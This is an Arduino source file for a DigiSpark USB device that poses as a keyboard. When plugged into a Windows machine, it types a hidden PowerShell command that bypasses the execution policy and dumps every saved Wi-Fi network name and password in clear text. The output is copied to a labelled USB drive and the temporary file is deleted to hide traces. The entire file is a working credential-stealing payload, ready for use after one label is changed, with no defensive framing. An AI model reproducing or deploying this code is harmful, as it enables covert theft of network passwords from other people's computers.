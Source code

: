 //This DigiSpark script writes the wireless network credentials to a csv file on a usb drive.  
//Change "VolumeName='USB_DRIVE_LABEL'" to reflect your drive's label.
//Credits to p0wc0w.
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print(F("powershell -NoP -NonI -W Hidden -Exec Bypass \"(netsh wlan show profiles) | Select-String '\\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=$name key=clear)} | Select-String 'Key Content\\W+\\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv c:\\windows\\temp\\temp.csv; cp c:\\windows\\temp\\temp.csv -destination $((gwmi -Query \\\"Select * from Win32_LogicalDisk where VolumeName='USB_DRIVE_LABEL'\\\").DeviceID); ri c:\\windows\\temp\\temp.csv -force"));
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for(;;){ /*empty*/ }
}